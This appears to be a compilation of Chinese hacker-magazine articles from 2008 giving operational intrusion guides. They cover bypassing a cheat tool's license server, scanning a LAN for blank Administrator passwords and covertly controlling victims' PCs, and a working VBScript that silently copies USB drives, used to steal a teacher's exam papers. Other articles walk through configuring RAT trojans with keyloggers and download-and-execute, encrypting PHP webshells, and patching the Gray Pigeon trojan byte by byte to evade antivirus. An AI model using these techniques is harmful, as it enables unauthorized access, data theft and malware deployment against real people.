下面我们就可以做本地验证了，把上面的返回信息保存为login.php，如果你没装IIS就用个人WEB服务器，记得要吧login.php放入WEB文件夹内。由于外挂要访问crc.afzs.net，所以就改Host表的方法把crc.afzs.net指向127.0.0.1（本机），路径是C:\WINDOWS\system32\drivers\etc\hosts，用记事本打开把localhost改成crc.afzs.net或者自己添加一行也行。先启动WEB服务然后再登陆外挂（如图3），这下就与外挂的服务器没任何关系了，外挂照样可以使用。一般的外挂都是可以试用一天的，不过此程序作者只让我们试用10分钟，10分钟到了后程序自动退出，所以我把以前破解的一个发给大家，希望大家玩的开心，也希望本文对你有所帮助。

（本文所涉及到的WPE、QQ三国助手破解、个人WEB服务器、QQ三国助手、hosts、login.php 已收录到光盘中）

## 想发泄？ 砸了它！

闪电小子

网络是虚拟的，所以也会有很多的烦心事。比如：某个网站上刊登了自己偶像的绯闻、某个网站的种动作让我们无法接受的时候，大家也许都会有这样的报复想法。拿站等方案一起涌上心头，但是，如果对于一个初出茅庐的小菜来说，就没有报复的办法，只能“以头抢地耳”吗？答案是：不是！现在，我就给大家介绍一个可以让所有人都可以发泄的地方，让大家不满的情绪得到释放。

首先让我们登陆http://www.netdisaster.com/，网页如图1所示。

其中，Target一栏我们填写即发挥的网址，在这里，我就拿被众多玩家唾骂的QQ幻想游戏官网作为牺牲品。在Target填上http://fo.qq.com/index.shtml，在disaster一栏中我们可以发现许多下拉选项，这是什么呢？对了！这就是发泄的方式，可以使用枪击、虫子、打鸡蛋、倒咖啡……等各种方式。具体的大 家可以亲自来看看，由于是英文的，所以不明白的同志可以通


## 局域网内最实惠的入侵做法

过金山的在线翻译（没有翻译工具的）或金山快译（适合安装有金山快译的同志使用）来了解攻击的方式。然后点击 go，攻击就开始了。如图 2，这就是我通过用枪击的办法“发泄”后的场景，是不是很爽啊？
在网络的生活中，烦心的事时常存在。给大家推荐这个网站，就是为了能让大家及时的发泄自己不满的情绪，相信大家看完后也有点跃跃欲试了吧？那就赶紧来吧！记住网址是 http://www.netdisaster.com。

玩了若干年的黑客技术，不少大菜鸟黑客已开始厌倦每天不停地踩点儿、黑网页、盗取 QQ 号等人侵生活了。其实入侵的含义远不止于此，笔者倒是觉得有时候针对局域网 LAN 的入侵反而是最实际可行的，因为对于像公司、学校、网吧之类的 LAN 而言，几乎所有人都有机会是其中的一员。另外，在此种与自己密切相关的 LAN 中一般都会有自己非常感兴趣的资料，因此有必要谈谈对自己 LAN 入侵的一些做法及经验（做“家贼”的感觉其实也不错哦！^_^）。工具不多，一个 X-Scan 扫描器，一个 DameWare 远程控制软件迷你版（小巧且不在杀毒软件的查杀之列），足矣。下面，笔者一起开始最实惠的 LAN 入侵之旅吧！

首先仍然是踩点儿扫描，请出 X-Scan 扫描器。由于最终入侵的目的无非就是查看/复制对方的资料，所以在 X-Scan 的“扫描参数”选项中一定不要贪多，这样可以保证扫描的速度，只要检测出对方的用户名和密码及操作系统即可。因此在 X-Scan 中的“检测范围”中“指定 IP 范围”就填本地 LAN 的网段，比如：“10.81.2.2-10.81.2.253”；“全局设置”中的“扫描模块”只选择“NT-Server 弱口令”和“远程操作系统”两项即可；其它的像“并发扫描”、“网络设置”等项均无需设置，默认。接下来就可以点击“开始扫描”按钮进行扫描了，过几分钟后会扫出结果（如图 1）。

根据经验，一般在 LAN 中的“Administrator+空口令”式“黄金组合”比例相当高，除此之外当然还会有一部分“123456”之类的弱口令，所以拿下整个 LAN 的 30-50% 的机率是非常高的。


第二步，运行 DameWare 远程控制软件迷你版，将 X-Scan 中扫描出的某个 IP、用户名和密码依次填入相应的项目后进行连接。马上 DameWare 就会提示你远程计算机未安装 DameWare 客户端，稍微设置一番（特别小心不要在远程计算机上显示 DameWare 的运行图标），之后很快就会看到对方的画面了（如图 2：竟然还在杀毒？所以使用 DameWare 是非常安全的），其一举一动不在掌握之中了么？


此时切记不要乱动自己的鼠标，因为 DameWare 默认连接状态是控制状态，也就是说对方的鼠标此时是听从你的摆布的。最好的选择是迅速地将鼠标移出屏幕，然后从上方小心地进入后点击“仅仅查看”按钮，如此后则可安心地查看对方在做什么了。因为我们的目的是长期入侵，所以千万不要去跟对方抢鼠标改密码什么的（偶当年就做过，结果对方马上开始点“开始”-“关闭计算机”，玩了足足有 1 分钟，最后以对方拔掉电源为结局。^_^），切记不要打草惊蛇。

第三步，经过上面的两步确认后，我们就可以在对方毫不知情时进行资料的查看/复制工作了。由于我们使用的 DameWare 迷你版后台文件操作功能不比一般菜鸟在自己机器上操作的方便（完全版本的可以，就是个头大了点儿），所以这


# 傻瓜黑客 2008合订本上卷

一步我们可以不需要借助任何工具，直接使用Win 2000/XP自带的Net use命令来与对方各硬盘分区进行网络映射即可。打开自己的CMD命令窗口，输入Net use X: \\10.81.2.108\D$ "" /user:"Administrator" 后回车，系统马上提示“命令成功完成”（如图3）。


此命令行的意思是将对方（10.81.2.108）的D盘映射为自己的X盘，连接时使用的用户名是Administrator、口令为空（这都是用X-Scan扫描得到的）。接着就可以关闭CMD窗口，回到自己的桌面右击“我的电脑”选择“资源管理器”，看到了吧，是不是多个X盘（如图4），这就是对方的D盘。

现在这就是“我的地盘”了，就像是自己的分区一样；对其中任何资料的任何操作都不会有限制——除非对方正在使用它。不过呢，大家还是要坚持“只查看/复制而不修改/删除”的原则，一是仁义，另外最主要的就是隐蔽性极强，以后还可以随便进入。否则对方有所察觉的话（即便再笨的菜鸟也会有所警惕这种不受控制的“闹鬼”现象），要么更换个比较复杂的密码让你无法再进入，要么向网管等高手指教，那不就是我们想要的结果了。还有，查看/复制完对方的资料后，建议大当还是将映射断开（只须在其上右击选择“断开”即可）。一是防止对方关机时可能出现的类似于“某用户正在XXX连接，是否中断？”的警告提示，二是可以杜绝自己机器重启时会不断尝试重新连接（特别是对方未开机时）而浪费时间。切记：用时就连，用完就断。

最后一句：工具不在多，用精就好；思路不在繁，有效即可。祝大家做个LAN的好“卧底”，把LAN做成自己的大本营。


## 为Discuz论坛添加统计

缥缈幽狼Love☆yadi

最近搭建了个Discuz论坛，看到别人的论坛都有统计，咱也不能落后啊！打开中国站长联盟主页www.cnzz.com，点页面上的“注册”，然后填写“EMAIL地址”。建议使用yahoo或tom邮箱，sina邮箱可能收不到站长联盟发的注册地址。打开邮箱，点邮件里面的注册地址，打开注册页面填写用户名等选项，提交后然后点“使用本站服务前，如果您还未添加网站请先添加您的下属站点！”填写站点信息，如图1。


添加后页面跳转，点“获取代码”，一共为大家提供了7种样式，选择自己喜欢的，然后点“复制到剪贴板”，如图2。

接下来登录到Discuz论坛后台，点“其它设置”，在左边选择“广告管理”，添加个广告。“展现方式”选“代码”，广告类型我选的是“页 尾通栏广告”，就在论坛最下面显示CNZZ的统计。“广告标题”随便写什么都行，“广告投放范围”默认是“全部”，“广告HTML代码”就把CNZZ提供的统计代码粘贴到这里就行了，如图3。


最后点“提交”，刷新一下论坛就在页面最下面看到CNZZ统计了，如图4。


添加统计后，可以查看当日的访问量、PV等。点论坛下面CNZZ的图标，会打开CNZZ统计登录页面，只要输入密码即可查看统计。但这个密码不是 你注册时的登录密码。打开CNZZ主页，重新登录统计系统，然后依次点：您的站点列表--〉查看报表--〉统计管理--〉修改设置，如图5。“查看密码”就是查看统计时用的密码，设置好点“确认更新”就OK了。最后祝各位站长的网站都越来越好，流量直线飙升！


## 小菜的考试秘籍

又到了备受煎熬的六、七月了，复习和考试是学生时代永远推翻不了的两座大山。既然我们的身份是学生，那么学习、复习和考试自然也就是作为学生必须要完成的工作。然而，我们的身份又是“黑”生啊(千万别忘了我们的身份)，玩黑也是我们的一门“学科”！

废话不多说了，直接进入主题。以前相信大家都用过闪盘窥探者这一软件。至少我没有少用。偷取别人闪盘里的东西真是轻而易举。运行界面如图1所示。

没用过的小菜，相信看到这一界面，也能够熟练操作。很人性化的设计。它是在后台偷取别人闪盘里所有东西的小软件。只要你的闪盘一插上，所有的东东都被悄悄拷走了。以前每到考试前我就用它偷取老师闪盘里的试题，谁让我太着迷x呢！平时不用功，最后当然要想办法啊。或许是我运气好，每次都能成功。羡慕吧！

可是，这一学期，有一个老师换了闪盘，而她的课又很BT。平时她的闪盘出现在“有可移动存储的设备”中，自从她换了闪盘后，她的闪盘出现在“硬盘”中。如图2所示。

由于没办法抓图，只能用图二代替了。闪盘窥探者就没法偷取闪盘里所有东西了。为了考试能过还是要想想办法。谁让我们是“黑”生呢！

上网搜索了N久，终于让我搜索到了如下代码。用VBS脚本写的一个小程序(程序我已经给打包了)。又经过N久把代码弄清楚了，谁让现在网络这么发达呢。后面都有注释说明。

```vbscript
On error Resume Next '忽略异常，否则可能有错误提示框
Set fso=CreateObject("scripting.FileSystemObject") '创建fso
dim n
set n=CreateObject("Wscript.Shell") '声明变量n
set dir=fso.GetSpecialFolder(1) '读取system32文件夹路径
fso.getfile(WScript.ScriptFullName).Xcopy(dir&"\copy.vbs") '读取自身文件名，并复制自己到system32文件夹，重命名为copy.vbs
dim r
Set r=CreatObject("Wscript.shell") '声明变量r，用于读写注册表
r
Regwrite"HKL\Software\Microsoft\Window\CurrentVersion\Run\","copy.vbs","REG_SZ" '为脚本添加启动项
fso.CreateFolder("e:\123\explorer") '创建文件夹，用来存放u盘文件。注：123文件夹是必须存在的。
for i=1 to 2
i=1 '这是一个死循环，变量i不可能到2，所以可以不断检查u盘并复制内容
fso.CopyFile "g:\*.*","e:\123\explorer\",True '复制g盘(u盘盘符)所有文件到指定文件夹
fso.CopyFolder "g:\*","e:\123\explorer\",True '复制g盘所有文件夹到指定文件夹
wscript.sleep 10000 '挂起10秒，此属性单位为毫秒
next
```

把上述内容存为*.vbs，才几百字节。
该脚本具有以下功能:
1. 开机自启动；
2. 定时复制闪盘所有文件及文件夹到指定位置；
3. 无任何错误提示(很关键，如果你不想死的话)。

现在，只要在目标机器上执行一次脚本(注意：执行时没有反映，但在进程列表中有一个wscript.exe的进程)。脚本执行后回停留在死循环里，每隔10秒复制一次文件到指定的文件夹里(间隔时间和目标文件夹均可以自行设置)。重启后会自行执行，且不会有任何异常提示，毕竟安全第一嘛！这也是vbs的特点，一切悄无声息，如图3所示。不过脚本也不是没有缺点，那就是复制文件的时候闪盘的灯会狂闪不止，且机器运行的速度会明显变慢，也无法通过安全删除硬件来停止闪盘，不过好在老师们多是菜鸟。

另外，别以为复制完就万事大吉了，最好定期删除没用的文件，否则目标文件会急速膨胀，到时会很恐怖哦！！

最后祝大家：考试都得满分！


## 小试国产新马 Fantasy

天涯衰草

灰鸽子的时代已经离我们远去，国产的木马程序除了上兴远控，就只有PcShare和守望者了，再加上最近也没有什么太好的国外木马加入，因此很多用户对这些木马产生了审美疲劳。今天我就带大家看看国内新近推出的一款名为Fantasy的国产木马程序，虽然这款木马还有很多不足之处，但是换换口味还是不错的。

### 一、配置木马

首先运行木马的客户端程序，点击工具栏中的“配置服务端”，Fantasy服务端的配置非常简单，用户只需要设置好反弹连接的访问地址以及连接端口、连接密码、安装选项等就可以了。访问地址可以采用网页链接以及IP地址等方式，如图1。安装选项包括了Fantasy木马的安装路径、文件名称以及服务内容等。配置完成后点击“生成服务端”，就可以创建我们所需要的服务端程序了。

### 二、实际操作

我们直接在本地的电脑里运行服务端程序来看看它的具体操作，很快服务端程序就会自动连接成功了。Fantasy木马所有的控制命令都集中在工具栏里，依次点击其中的控制命令来测试一下Fantasy木马的控制能力到底如何。

首先单击工具栏中的“远程屏幕”命令，通过该命令即可对远程桌面进行查看。在弹出的捕捉窗口中点击工具栏中的“开始”按钮，程序就开始自动捕获远程桌面的内容了。默认情况下Fantasy木马的捕捉效果并不理想，不过用户可以选择“真彩色”选项，这样捕捉的屏幕效果就将大为改善了，如图2。


通过“保存画面”按钮可以对捕捉的画面进行保存。通过测试发现，Fantasy木马的远程桌面除了屏幕捕捉外，并不能对远程桌面进行直接的控制操作。除此以外，“视频监控”功能可以通过远程摄像头进行信息捕捉，不过我因为没有摄像头也就无法测试了。

点击“文件管理”按钮进行远程磁盘文件的管理，在弹出的“文件管理”窗口中，首先从磁盘列表中选择需要查看的磁盘信息，然后就可以对所需的文件夹和文件进行管理操作。既然是远程文件管理，程序自然包括了必须的文件上传、下载、运行、删除等基本的功能，文件的上传和下载都支持断点续传功能，如图3。不过虽然Fantasy木马支持多线程的操作，但是在文件管理方面还是只能一次对一个文件进行操作。


接着我们再来看看Fantasy木马中的其它管理命令，比如“进程管理”、“服务管理”、“注册表管理”等。利用“进程管理”可以对远程系统中的进程进行相应的管理，可以查看到每个进程的路径、PID、线程数、优先级等信息，如图4。

通过“终止进程”命令，用户可以关闭某些选中的程序进程，比如杀毒软件、防火墙的进程等。另外通过“服务管理”命令，除了能对NT系统中的服务进行常规的启动、停止、删除等管理外，还包括一个“安装服务”的相应功能。点击这个按钮，Fantasy木马会分别弹出三个对话框，我们需要依次输入新建服务的名称、描述、服务程序的路径等。这对于绕过某些拥有主动防御功能的杀毒软件是非常有用的，不过该命令有时候操作起来会没有反应。

点击工具栏中的“注册表”管理命令，就可以在窗口中对远程系统的注册表进行操作。比如对任何所选择的内容进行修改、删除、重命名等，当然也可以对注册表内容进行相应的新建操作，如图5。可能普通的计算机用户对注册表信息不够了解，

其实对注册表进行相关的操作后，就可以很好的完成对系统的进一步控制。比如打开远程系统的远程桌面功能，更改其使用的连接端口等，这样我们以后就可以使用远程桌面来进行控制操作了。

| 名称 | 类型 | 数据 |
| ---- | ---- | ---- |
| (默认) | REG_SZ | 值未设置 |
| PortNumber | REG_DWORD | 0x00000d3d (3389) |
| fDenyTSConnections | REG_DWORD | 0x00000000 (0) |

图5

再来看看工具栏中的“超级终端”命令，该功能模拟了一个远程系统的CMD窗口，用户可以在这个窗口中执行大量的网络终端命令，如图6。当然也可以执行只有在CMD窗口才能执行的后门程序。不过由于系统本身的特性所造成的原因，该命令可能在服务端为Win9x的情况下无法实现，所以使用前最好通过主机列表中的“系统类型”命令查看清楚远程主机的操作系统类型。

最后通过工具栏中的“服务端控制”按钮，还可以执行其它一些操作命令，比如卸载服务端、关闭主机、重启主机等。另外在“下载执行文件”功能里，可以直接将网络中的文件下载到远程系统中并运行，设置好“文件地址”和“文件名称”等项后，点击“下载执行”按钮就可以了，如图7。在主机列表中还可以对多台远程计算机进行批量的文件下载操作，这样就可以批量对肉鸡中的服务端程序进行更新。


图6

### 三、小结

从上面的介绍我们可以看出，Fantasy木马虽然是一款刚刚推出的木马程序，但是其拥有的功能已经可以满足常见的控制操作。唯一的缺陷就是其自身的防护性太差了，服务端程序没有进行任何的隐藏设置。因此我认为，Fantasy木马在以后的版本中需要将现有功能进行进一步的加强并加大服务端的隐藏设置，只有这样Fantasy木马才能得到进一步的发展和延续。
（本文所涉及到的Fantasy已收录到光盘中）


图7

## 网页后门免杀之 phpendode 篇

EmperorFirst

以前我曾经写过一篇叫做“网页后门免杀之 screnc 篇”的文章，那么今天我就来完成这个系列的第二篇 -- phpendode 篇。
前几天当我入侵一个由 BBSXP2007 构建的论坛，在后台添加 asa、aspx 等后级格式准备上传后门时，发现上传失败。既然已经添加好了，问题一定是出在文件过滤中，这些后缀被过滤掉了。
为了验证我的想法，我从官网下载了一套同程序，在Utility\UpFile.asp文件中发现了这么一段代码：

```
if FileExt="asa" or FileExt="asp" or FileExt="cdx" or
FileExt="cer" or FileExt="aspx" then Alert("对不起，管理员设定
本论坛不允许上传 "&FileExt&" 格式的文件!")
```

的确如此，不但过滤了 asa、aspx，还过滤了 asp、cdx、cer 等格式，看来程序制作者真是煞费苦心啊，只可惜过滤的不全，这就要用到我们的 PHP 后门了，我自己使用的后门是从国外的网站上找到的，被我手动做了免杀，为了广大菜鸟群众都能用上国产的免杀 PHP 木马，下面我就介绍一款 PHP 加密软件 phpendode。它的使用方法基本和上次我介绍过的 screnc 一致，只不过是把命令中的 screnc.exe 改成 phpendode.exe 而已。
先来看一下这款软件，解压后如图 1 所示，这个比起 screnc 要简单多了，少了 dll 和 inf 文件。主程序 phpendode.exe 依旧是在 CMD 命令行下运行的，要求待加密的 PHP 文件与 phpendode 要在同一目录下。
其用法为“phpencode.exe 待加密文件 保存文件名”。假设 phpendode.exe 所在位置为 E:\tool\phpencode.exe，待加密文件位


图1

# 牧马记


图 1


图 2

置为 E:\tool\shell.php, 则在 CMD 下运行的命令为:

```
cd E:\tool\
phpencode.exe shell.php newshell.php
```

成功后就会显示“文件 shell.php 免杀成功 请查看同目录下的 newshell.php 文件”, 如图 2。
需要说明的是加密前需要去掉第一行和最后一行的 PHP 标记 `<?` 和 `?>` , 不然会出现错误的。

最后让我们使用一款国内常见的 PHP 后门来对比一下加密前后的样子, 分别如图 3, 图 4 所示。


图 3


图 4

看好程度不亚于 strenc 加密出来的效果^_^, 而且加密后还有优化程序缩小文件之功效, 文件从 83K 压缩到了 35K, 如图 5。


图 5

最后再来对边上边 BBSXP 进行一下补充。
1、其实不仅是 BBSXP 的作者过滤的后缀可以包含动态语言调用相应的函数, asp, asa, aspx, cdx, cer, jsp, cgi 等后缀的文件也是全部可以通用的, 除了这些外, php 也是一种动态语言的文件后缀。
2、如果把上边那段代码改成

```
if FileExt="asa" or FileExt="asp" or FileExt="cdx" or FileExt="cer" or FileExt="aspx" or FileExt="php" or FileExt="cgi" or FileExt="jsp" then Alert("对不起, 管理员设定本论坛不允许上传 &FileExt& 格式的文件!")
```

就安全了。
(文章中涉及到的 UpFile.asp 和 phpencode 已经收录在光盘中)

## 叉子来免杀灰鸽子 VIP2.03

JKS_浅色约定

自从上了初三, 一直忙于学习, 很久没有写文章了, 这次我就将自己免杀灰鸽子 Vip2.03 过瑞星的全过程详细的共享给大家, 希望大家都能够轻松的学会免杀。

### 一、修改主流数据, 减少特征码

有些杀病毒软件往往是把特征码定位在一些数据流上, 只要我们把此改掉就可


图 1

2008 合订本上卷

以大大减少特征码的修改量了。首先运行修改程序C32Asm，点击“文件”－“打开十六进制文件”，载入灰鸽子的服务端。点击鼠标右键，在菜单中选择“搜索”命令，在弹出的搜索窗口中输入“IEXPLORE.EXE”，如图1。
很快我们就会搜索到“\Program Files\Internet Explorer\IEXPLORE.EXE”这个字符串，大家看到这个字符串都很熟悉吧，它就是插入IE进程的系统路径。只要我们把路径改为其它进程的路径，那么就能插入到其它进程来逃过防火墙了，详细的修改方法在以前的X档案里都曾经介绍过，我就使用默认的插入IE进程不修改了。回到正题，把这个字符串选中，点击右键，选择菜单中的“修改数据”命令，在弹出的窗口中选择“大小写翻转”，如图2。然后点击“确定”就修改好了，如图3。修改完后再次搜索“IEXPLORE.EXE”，也把它进行大小写转换。
当我们遇到一些汉字字符串，可以把它替换成其它汉字，也可以使用00填充（个人认为使用00填充可以达到最好的效果，但是填充了那些字在软件里就不能显示出来），这两个修改方法是不会影响程序正常运行的。返回到最顶层，搜索“远程管理软件灰鸽子服务端安装成功！”，我改成了“黑客X档案投稿演示 BY：JKS-浅色约定”，这样的字符串还有很多，就不一一详细讲了。在服务端里找到很多这样的汉字字符串，同时使用繁体字进行修改就给大家参考一下，为了不占用X的宝贵版面，我用一个文本文档记录了下来，大家直接查看就行了。只要按照上面的方法进行修改就可以了。


### 二、修改瑞星表面特征码

上面的方法仅供大家参考，我就不修改数据流而直接使用原版的服务端了。运行mycc1，对服务端定位文件特征码的结果如下：

```
[特征]0009F7C2_00000002
[特征]000A1214_00000002
[特征]000A231E_00000003
[特征]000A55D8_00000002
[特征]000AB80C_00000002
```

使用OC地址偏移器把第一处特征码0009F7C2转换成内存地址，转换出的地址是004A03C2。使用OllyDBG打开服务端，按下热键“Ctrl + G”，在弹出的对话框里输入刚才转换出来的内存特征码，然后点击“确定”，就会跳到第一处特征码的地址，如图4。


我们看到004A03BF这个地址的代码是“TEST EAX, EAX”，TEST是测试的意思，一般情况下，它就是一句空的指令，所以我们可以将其改为“PUSH 0”，然后保存为1.exe（可能会有读者要问，特征码是在“JNZ SHORT 004A041A”这个指令上，为什么修改“TEST EAX,EAX”就能够躲过杀毒软件的查杀呢？这是因为杀毒软件查杀的特征段，不是单单一个特征码，所以不一定修改特征码才能达到免杀的效果）。

来继续修改第二处特征码，使用OC转换的第二处特征码000A1214转换出来的是004A1E14。使用OllyDBG打开服务端，按照上面的方法输入内存特征码，来到004A1E14地址，如图5。


我们可以看到有两个Mov指令，Mov指令往往能两个相互对调位置，所以直接把004A1E12和004A1E15的代码对调，即把004A1E12处的“mov edx, dword ptr [ebp-C]”改为“mov eax, dword ptr [ebp-10]”，然后把004A1E15处的“mov eax, dword ptr [ebp-10]”改为“mov edx, dword ptr [ebp-C]”，然后保存为2.exe。

第三处特征码000A231E，也使用OC地址偏移器转换出内存特征码是004A2F1E，来到004A2F1E这处特征码，如图6。


我们看到004A2F1E这处特征码代码中有个指令是“JL”，而“JB”的指令跟“JL”的意思一样是小于转移。我们尝试把“JL”改为“JB”，即“JB 004A3018”。

使用OC转换第四处特征码000A55D8，转换的结果是004A640C。使用OllyDBG打开，看到特征码在入口点附近，如图7。


我们可以看到004A61BC到004A61C8这里有很多没有用的指令，可以用汇编知识重新把入口点的指令排位。先把004A61BC到004A61CA使用“NOP”指令填充，重新写上如下的指令：

```
004A61BC    60            PUSHAD
004A61BD    68 00408A00   PUSH 00408A00
004A61C2    8B44240A      MOV EAX,DWORD PTR SS:[ESP+A]
004A61C6    50            PUSH EAX
004A61C7    FFD0          CALL EAX
004A61C9    61            POPAD
004A61CA  - 75 F5         JNZ SHORT 004A61C1
004A61CC    C3            RETN
```

写完指令后保存为4.exe。
第五处特征码就是瑞星的最后一处特征码了，我们要加油啊。使用C32Asm载入4.exe，按下热键“Ctrl + G”，在弹出的对话框里输入特征码“000A580C”，然后点击“确定”按钮。

# 牧马记

来到 000A580C 这处特征码，如图 8。我们从十六进制里看到特征码是“80”，前面有两个“00”，经常说到的 0 区域就是它了，它是没有用的，我们随便把“80”的前面一个“00”改为“20”，“20”就是代表“空格”字符串，修改完毕，保存为5.exe。然后使用使用瑞星测试一下，已经检查不出来了，并且木马也能正常上线，如图 9。

接下来我们修改瑞星的内存特征码，对服务端定位文件内存特征码的结果如下：

```
[特征]:000AA5EE:00000002
[特征]:000A58F7:00000004
[特征]:0009F6C8:00000002
[特征]:000BC8B0:00000003
[特征]:0009E65C:00000002
```


使用 C32Asm 载入服务端，跳到第一处特征码“000A5EE”，我们看到特征码如图 10 所示。瑞星把内存特征码定位到输入表的“WNetOpenEnumA”这个函数的“A”上了，修改的方法是向前移动一个字节就行了。选中函数点击右键，在菜单中选择“拷贝”—“拷贝”，把“WNetOpenEnumA”函数复制。因为“WNetOpenEnumA”这个函数共占 13 个字节，所以我们选中原来的“WNetOpenEnumA”这个函数的前 1 个字节扫黑，直到 13 个字节为止。单击右键，在菜单中选择“粘贴”，把原来的“WNetOpenEnumA”函数覆盖，这样就粘贴下去了。这时我们发现新的“WNetOpenEnumA”函数后面有一个“A”没有覆盖，选中它，单击右键在菜单中选择“填充”，在弹出的对话框中选择“使用 16 进制填充”，在它后面的常量中写上“00”，点击“确定”按钮，然后保存为6.exe，如图 11，图 12。


打开 LordPE，我在图中已经大致的写上了编号，这样方便大家看清楚，步骤如下如图 13 所示。

载入服务端，点击“1”号区的“Break & Enter”，然后

在弹出“2”号区的窗口点击“Directories”，接着在“3”号区窗口里点击截图圈着的按钮（我不知道这个按钮是什么名称，所有大家只有看图了^_^）。因为在图 10 里可以看到“WNetOpenEnumA”在 mpr.dll 动态链接库中，所以在“4”号区的窗口的“DLLName”一栏找到“mpr.dll”。这时我们看到“5”号区又有几个函数出现。在“5”号区，我圈住的是要修改地址的函数。选中它，点击右键，在菜单中选择“edit”，如图 14。接着会弹出一个对话框，我们看到“ThunkValue”的值是“000AE9E0”，因为刚才移动函数是向前移动了一个字节，所以在这里也是向前移动一个字节，根据十六进制的计算速率的计算式计算是 000AE9E0 — 00000001 = 000AE9DF。把“000AE9DF”输入到“ThunkValue”的值里面，然后点击“OK”按钮，如图 15。这时我们看到“5”号区已经能完整显示“WNetOpenEnumA”这个函数了，如图 16。就这样很简单就修改完第一处特征码了。


第二处和第三处特征码都是使用 C32Asm 载入，分别跳到特征码“000A58F7”和“0009F6C8”，大家分别看到的特征码如图 17 和图 18 所示。这两处特征码在文章的前面已经修改过了，就此略过，修改完之后保存为7.exe。


使用 C32Asm 载入服务端，跳到“000BC8B0”地址，看到

的特征码如图19所示，相信很多朋友都认为修改这处特征码使用大小写转换就行了，其实不行的，不相信的朋友可以试试。


我们使用Restorator载入7.exe，找到“RCData”目录的“DVCLAL”资源，选中它点击右键，在菜单中选择“删除”，如图20。然后点击文件保存。为什么这样就算修改了特征码呢？我们先使用C32Asm载入服务端，跳到特征码，如图21。

对照一下图19的特征码，相信熟悉灰鸽子的朋友都很熟悉这些提示了。


到最后一处特征码了，使用C32Asm载入服务端，跳到特征码“0009E65C”地址，如图22，使用OC把“0009E65C”转换成内存特征码“0049F25C”。使用OD载入服务端，跳到“0049F25C”地址，把整行黑地把它拷贝下来，然后在选中“http://”的字符串的前一个字节粘贴下来，把没有覆盖的字符串都用00填充了，保存为8.exe，如图23。


到此，这处特征码还没有修改完毕，还要修改关联的部分，如果不修改的话就不能正常运行了。我们使用OD载入服务端，


点击右键，在菜单中找到“查找”，然后在子菜单中选择“所有参考文本字符串”，如图24。在弹出的窗口中查找“ttp://”的文本字符串，如图25。然后选中它，双击跳到它的关联地址，如图26。我们看到代码是“MOV EAX,49F250”，在这个代码里“49F250”就是“http://”的地址了，因为我们刚才把它向前移动了一个字节，所以十六进制计算49F250 - 1 = 49F24F。把“MOV EAX,49F250”改成“MOV EAX,49F24F”就OK了，“http://”这个字符串完整显示出来了，如图27。保存为9.exe。特征码就这样修改完了，经过测试能顺利通过瑞星的表名和内存检测了。


新的08年来，杀毒软件公司也都纷纷推出了自己的特色主动防御功能。这样也就意味着免杀技术将会更加精彩了，就让我们拭目以待吧。

（本文所涉及到的字符串列表、灰鸽子Vip2.03、OC地址偏移器、OllyICE、c32asm和Restorator已收录到光盘中）

## 绽放网络“炽天使”

痛并快乐着


炽天使到底是什么？电脑游戏还是网络小说？都是也都不足。因为今天我要介绍的炽天使，是一款地地道道的木马程序。这款木马为什么会起这个名称我不得而知，但是它拥有的功能却相当的强大，强大到连卡巴斯基也无法阻止其自由的飞翔。现在我们就来见识一下这个绽放在网络中的“炽天使”吧！

### 一、配置服务端程序

首先运行“炽天使远控系统”的客户端，点击工具栏中的第一个按钮“生成服务端”，在弹出的窗口里就可以对服务端进行配置了。“服务端生成”窗口包括基本信息、连接设置、高级

设置以及生成设置等功能标签。“基本信息”里主要设置主机注释、文件名称、服务名称、上线口令等。需要注意的是，文件名称表示释放后的名称，但是名称后面不需要跟任何的后缀名；“修改图标”按钮可以设置服务端程序的图标，既可以使用图标文件，也可以从EXE、DLL文件里进行图标的提取。连接设置主要用于客户端和服务端的连接，炽天使远控可以使用1P地址、网页域名、网页地址等多种方法进行连接。为了避免连接地址出错而造成无法连接的情况，炽天使还可以设置一个备用地址。“高级设置”中可以设置服务端插入的进程，炽天使为用户提供了三种进程选择，包括IE浏览器、资源管理器以及数目众多的


# 散马记

Svchost 进程。另外还可以设置服务端是直接连接还是使用代理服务器再进行连接，这样远程用户就无法追踪到木马的使用者了（图1）。“生成设置”里包括程序的自我保护设置，利用它可以进行服务端的端口、服务、文件的隐藏以及过杀毒软件的主动防御等。另外炽天使远控还有一个版本选择功能，其中包括基本版和迷你版，这主要是因为炽天使远控的很多功能是由插件来完成的（图2）。所有的设置完成后，点击“生成”按钮即可创建服务端了。


### 二、木马的控制操作

首先将刚才创建的服务端程序安装到虚拟机里，接着在客户端的工具栏中正确设置“监听端口”和“登录口令”，然后点击“开始服务”按钮就可以进行监听。如果用户使用了备份连接地址，尤其是使用了80端口进行连接的话，那么同时需要将“HTTP隧道”选项选中。通过测试，发现服务端程序上线稍微有些慢，这可能和它使用了一些插件有关。

#### 1. 主要控制功能

首先点击工具栏中的“CMD命令行”，在弹出的窗口模拟出一个命令提示符窗口。通过该窗口不但可以执行很多网络终端命令，也可以执行很多的本地操作命令以及执行大量的后门程序等。用户只需要在“输入命令”栏键入相关的命令，点击“发送”按钮就可以在窗口看到返回结果，如图3。另外在“CMD命令行”菜单中，还有一个“Run As”命令，该命令是以指定的远程系统账户的权限来执行命令提示符窗口命令，如果账户输入错误的话就以默认的System身份运行。


点击工具栏中的“文件管理”命令，就可以对远程系统中的文件以及文件夹进行管理操作了，比如执行上传、下载、打开、删除等操作。炽天使远控的文件管理窗口分为上下两个部分，窗口上方是远程系统的磁盘目录，下方则是本地系统的文件目录。虽然可以利用工具栏和右键菜单进行传输操作，但是用户仍然可以通过鼠标将文件或文件夹拖放到对方磁盘，炽天使远控的文件传输不但支持断点传输，还支持多线程的操作，如图4。另外在远程系统的工具栏中还包括一个文件查找命令，它可以帮助用户在指定的目录里找到需要的文件，比如用户想在C盘中查找可执行文件，那么首先可以在文件窗口中进入到C盘，然后点击搜索命令并在窗口中输入对应的文件信息即可。


#### 2. 插件控制功能

以上介绍的这两个命令都是服务端程序自带的，而其它的控制命令基本上都是通过插件来完成的。我们点击工具栏中的


## 2008 合订本上卷

# 散码记

“插件管理”按钮，弹出的管理窗口同样分为上下两个部分，窗口上方是远程系统已经安装的插件，而下方则是本地的客户端目录里所有的插件。如果配置服务端选择的是基本版，那么炽天使远控就已经默认安装了，包括进程管理、服务功能、系统信息、屏幕监控等六个功能。如果你想添加新的插件的话，只需要在窗口下方选择相应的插件，然后点击鼠标右键，选择“安装插件”命令即可，如图5。从图中大家可以看到我安装了一个“键盘记录器”插件，同理用户也可以卸载删除远程系统已经安装的插件。

